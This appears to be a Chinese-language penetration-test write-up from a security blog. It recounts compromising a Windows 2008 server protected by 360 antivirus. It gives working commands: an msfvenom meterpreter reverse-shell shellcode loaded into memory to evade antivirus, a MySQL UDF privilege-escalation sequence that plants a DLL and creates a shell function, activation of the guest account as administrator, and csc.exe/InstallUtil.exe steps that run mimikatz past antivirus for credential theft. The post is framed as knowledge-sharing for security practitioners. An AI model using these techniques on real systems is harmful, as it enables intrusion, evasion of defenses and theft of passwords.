专注APT攻击与防御
https://micropoor.blogspot.com/

> 一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师。                              Micropoor
                                     
拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

-------

**目标机背景：**
windows 2008 r2 x64位 360主动+360卫士+360杀毒+waf，目标机仅支持aspx。运行OAWeb服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql数据库，不支持php，无.net for mysql 驱动）



**端口开放如下：**


**需要解决的第一个问题：payload**
由于目标机，安装某套装，payload一定是必须要解决的问题。当tasklist的时候，看到如下图几个进程的时候，第一反应就是需要做payload分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。


**本地补图（由于项目在实施后形成该文章，故本地靶机补图）**

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。  

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

0x00:以msf为例：监听端口


0x001：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：
>   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw \> test.c


0x002:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：
https://github.com/clinicallyinane/shellcode_launcher/
>   作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。


生成的payload大小如下：476字节。


世界杀毒网：


上线成功。

而关于自带安装分离免杀，请参考我在公司Wiki上写的第六十九课时 **payload分离免杀思路第二季**
payload反弹到vps的msf上，我的权限仅仅如下。


**需要解决的第二个问题：提权**
参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。
* 原因1：需要更多的时间消耗在对反病毒软件对抗。
* 原因2：目标机补丁过多。需要消耗更多的时间
* 原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机\*..MYI，\*.MYD，\*.frm，加载于本地mysql。得到目标机root密码


而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决
* 一：转发目标机端口到本地，从而操作mysql。
* 二：在非交互式下，完成mysql udf的提权。

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx

如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。


大致流程如下：
```
mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
```


**需要解决的第三个问题：登录服务器**

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。




**socks代理登录目标机：**


**需要解决的第四个问题：抓取目标机明文密码**

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。

* 一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。
* 二：分离免杀做mimikatz密码抓取

作者选择了第二种方案：

这里需要用到**csc.exe，与InstallUtil.exe**

关于两个文件默认安装位置：（注意x32，x64区别）
```
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
分别执行：
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```




**派生出的第五个问题：横向渗透**

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。
如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时。


**后者的话：**

本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题。

**在每次分享的同时，深深发现，原来分享，才是我最好的老师。**


